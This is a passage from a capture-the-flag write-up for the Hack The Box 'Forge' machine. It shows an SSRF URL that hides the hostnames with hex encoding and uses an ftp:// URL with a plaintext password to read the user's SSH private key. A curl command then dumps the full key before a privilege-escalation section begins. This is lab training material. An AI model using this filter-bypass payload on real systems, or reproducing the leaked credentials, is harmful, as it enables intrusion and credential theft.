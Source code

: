 I was able to retrieve the ssh private key of the user.

```bash
http://%61%64%6D%69%6E%2E%66%6F%72%67%65%2E%68%74%62/upload?u=ftp://user:heightofsecurity123!@%6C%6F%63%61%6C%68%6F%73%74/.ssh/id_rsa
```

```bash
┌──(kali㉿kali)-[~/htb/forge]
└─$ curl -s http://forge.htb/uploads/1dwCS56wIxwghmZZIdug | tee id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
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
shlLupso7WoS0AAAAKdXNlckBmb3JnZQE=
-----END OPENSSH PRIVATE KEY-----
```

## Privilege escalation

Gaining access to the machine, we find that the user can run certain commands as sudo.
